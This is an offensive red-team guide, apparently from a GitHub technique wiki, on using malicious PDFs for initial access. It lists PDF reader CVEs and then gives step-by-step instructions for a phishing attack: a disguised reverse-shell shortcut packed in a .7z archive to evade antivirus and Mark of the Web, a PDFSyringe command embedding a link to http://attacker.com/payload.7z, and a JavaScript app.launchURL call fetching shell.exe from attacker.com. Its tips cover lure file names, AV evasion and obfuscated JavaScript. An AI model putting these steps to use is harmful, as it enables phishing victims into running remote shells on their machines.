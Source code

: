 # Malicious PDF (Portable Document Format)

**Type:** Malicious Documents & File-Based Delivery  
**Platform:** Windows, macOS, Linux (PDF Reader or browser-dependent)  
**Prerequisites:** User must open the PDF file in a vulnerable or misconfigured PDF reader (e.g., Adobe Reader with JavaScript enabled) for Code Execution



---
## Overview

Malicious PDF files are widely used in phishing campaigns and red team operations for initial access. PDFs can embed **JavaScript, launch actions, file attachments, and even execute external programs** in some cases.

Attackers exploit **JavaScript execution**, **action triggers**, and **vulnerabilities** in PDF viewers (e.g., Adobe Reader [CVE-2010-1240](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-1240), [CVE-2018-4990](https://nvd.nist.gov/vuln/detail/CVE-2018-4990),  [CVE-2023-26369](https://nvd.nist.gov/vuln/detail/cve-2023-26369), [CVE-2024-41869](https://nvd.nist.gov/vuln/detail/cve-2024-41869) ) to:
- Drop/Execute malware
- Execute commands (via vulnerable Adobe Acrobat Reader : [CVE-2010-1240](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-1240), [CVE-2018-4990](https://nvd.nist.gov/vuln/detail/CVE-2018-4990),  [CVE-2023-26369](https://nvd.nist.gov/vuln/detail/cve-2023-26369), [CVE-2024-41869](https://nvd.nist.gov/vuln/detail/cve-2024-41869))
- Credential harvesting ( via JavaScript/Forms )



---
## How It Works

1. The attacker creates a malicious PDF file.
2. The PDF includes either :
   - JavaScript code ( to drop malware or phish for credentials )
   - exploit trigger (e.g :  Adobe Acrobat  : [CVE-2010-1240](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-1240), [CVE-2018-4990](https://nvd.nist.gov/vuln/detail/CVE-2018-4990),  [CVE-2023-26369](https://nvd.nist.gov/vuln/detail/cve-2023-26369), [CVE-2024-41869](https://nvd.nist.gov/vuln/detail/cve-2024-41869))
3. When the user opens the file, the embedded code is executed **automatically** or **after user interaction**, depending on the PDF reader's configuration.

Some PDF exploits do not require user interaction and trigger **on open**.


---
## Prerequisites

**Tools Needed**
- `msfvenom` or other payload generator (optional)
- pdf editor or a tool to generate a malicious pdf file e.g : `PDFSyringe`  or `EvilPDF`
- `msfconsole` or `nc`  (for listening)


---
## Steps to Implement

>in most cases we will use PDFs to drop malware or harvest credentials ( with social engineering ), so i'll demonstrate how to leverage PDFs to drop malware on the target system ( and convince the victim to open the dropped malware )

1. **Create Payload (Reverse Shell)**

we'll create a shortcut ( .lnk ) that execute our reverse shell and make it looks like a benign document , then we'll compress it into a `.7z`  archive ( to evade av and evade windows Mark of the Web ).

so at the end we will have a 7-zip archive that contain our shortcut file and a pdf file to display to the victim ( to avoid raising suspicion ) 

2. **host the payload** 

use python to host the payload ( zip archive )
```shell
python -m http.server 80
```

3. **Embed a URI to the remote payload** 

Use `PDFSyringe` to make a pdf file that has a clickable link to the payload 

```bash
git clone https://github.com/o-sec/PDFSyringe

cd PDFSyringe

chmod +x pdfsyringe.py 

./pdfsyringe.py -u http://attacker.com/payload.7z -t template.pdf -o document1.pdf
```

This generates a malicious pdf file with the embedded clickable URI to the payload.

4. **Deliver the PDF**

- Send via email attachment with a social engineering lure
- Host on a web server (e.g., http://attacker.com/invoice.pdf)

5. **Execution**

when the victim opens the PDF file will potentially fall for the social engineering lure and download the 7zip archive and extract it then hopefully open the stage2 payload, then we'll get a reverse shell :)

at the end of the day it depends on social engineering. but in some cases we could exploit vulnerabilities in pdf readers like : [CVE-2010-1240](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2010-1240), [CVE-2018-4990](https://nvd.nist.gov/vuln/detail/CVE-2018-4990),  [CVE-2023-26369](https://nvd.nist.gov/vuln/detail/cve-2023-26369), [CVE-2024-41869](https://nvd.nist.gov/vuln/detail/cve-2024-41869)



---
## Payload/Code Snippets

- **JavaScript Trigger Inside PDF**
```js
app.launchURL("http://attacker.com/shell.exe", true);
```

- **alert with javascript** 
```js
app.alert("hello !");
```



---
## Tips

- Rename the PDF to something enticing: Invoice_351.pdf
- Use password-protected ZIP to deliver the PDF if AV blocks it
- PDF readers vary in behavior, test on Adobe Reader and browser PDF viewers
- Use obfuscated JavaScript for stealth



---
## References

- [PDFSyringe](https://github.com/o-sec/PDFSyringe)
- [CVE-2010-1297](https://nvd.nist.gov/vuln/detail/cve-2010-1297)
- [EvilPDF GitHub](https://github.com/superzerosec/evilpdf)
- [Threat-Loaded: Malicious PDFs Never Go Out of Style](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/threat-loaded-malicious-pdfs-never-go-out-of-style/)
- [CVE-2010-1240: Adobe Reader and Acrobat arbitrary code execution](https://github.com/asepsaepdin/CVE-2010-1240)
- [PDF Malware Is Not Yet Dead](https://threatresearch.ext.hp.com/pdf-malware-is-not-yet-dead/)
- [CVE-2023-26369: Adobe Acrobat PDF Reader RCE when processing TTF fonts](https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2023/CVE-2023-26369.html)
- [Beware of weaponized PDF](https://www.sonicwall.com/blog/beware-of-weaponized-pdf)
- [Rise in Deceptive PDF: The Gateway to Malicious Payloads](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-in-deceptive-pdf-the-gateway-to-malicious-payloads/)
- [Can a PDF File be Malware? @john-hammond YOUTUBE](https://www.youtube.com/watch?v=TP4n8fBl6DA&t=415s&pp=ygUYYWRvYmUgcmVhZGVyIHBkZiBleHBsb2l0 "Can a PDF File be Malware?")
- [The Weaponization of PDFs](https://blog.checkpoint.com/research/the-weaponization-of-pdfs-68-of-cyberattacks-begin-in-your-inbox-with-22-of-these-hiding-in-pdfs/)

---

**_Author_** : **o-sec**
